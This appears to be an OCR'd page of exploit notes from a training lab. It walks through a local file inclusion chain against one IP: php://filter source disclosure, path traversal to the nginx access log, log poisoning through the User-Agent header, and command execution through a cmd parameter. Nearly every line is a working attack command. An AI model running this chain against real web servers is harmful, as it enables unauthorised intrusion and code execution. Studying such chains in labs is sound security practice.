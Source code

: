 # **Examples**

###### First check web servers
```curl
curl -i -X GET http://94.237.57.183:51420/
```
###### Read Source Code
```url
php://filter/read=convert.base64-encode/resource=index
```
###### Read Source Code
```url
php://filter/read=convert.base64-encode/resource=admin/index
```
###### Path Traversal 
```path-traversal
http://94.237.57.183:51420/admin/index.php?log=../../../../../var/log/<webserver>/access.log
```
###### Test User-Agent
```curl
curl -s "http://94.237.57.183:51420/admin/index.php?log=../../../../../var/log/nginx/access.log" -A "LOG POISONING" | grep "LOG POISONING"
```
###### RCE
```curl
curl -s "http://94.237.57.183:51420/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=id"
```

